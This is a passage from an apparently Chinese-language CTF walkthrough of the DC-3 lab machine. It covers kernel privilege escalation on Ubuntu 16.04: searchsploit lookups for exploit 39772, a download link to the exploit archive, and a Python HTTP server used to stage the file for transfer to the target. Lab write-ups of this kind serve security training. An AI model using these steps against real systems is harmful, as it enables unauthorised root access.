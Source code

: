 ![image-20230806131201874](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806131201874.png)



```shell
cat /proc/version
```

![image-20230806131314137](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806131314137.png)

继续使用searchsploit工具搜索漏洞 ，打开另一个终端

```shell
searchsploit Ubuntu 16.04
```

![image-20230806131640058](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806131640058.png)

Privilege Escalation（提权），这里我们使用通用4.4.x版本的提权方式

使用find命令查找路径

```shell
find / -name '39772.txt'

# 全部路径
/usr/share/exploitdb/exploits/linux/local/39772.txt
```

![image-20230806131740267](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806131740267.png)

可以直接用`searchsploit -p linux/local/39772.txt`会直接显示出绝对路径

![image-20230806160302414](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806160302414.png)



```shell
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

![image-20230806161041304](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806161041304.png)

> 溢出提权（exp提权）

**利用exp提权**

[https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip)

下载39772.zip，粘贴复制到kali里（不能拖到kali里面，否则会出现丢包的现象）

![image-20230806132534453](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806132534453-1691309890182-1.png)

![image-20230806132648779](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806132648779.png)

在桌面开启http服务，将下载好的文件导入到DC-3靶机里

```shell
python3 -m http.server 8888
```
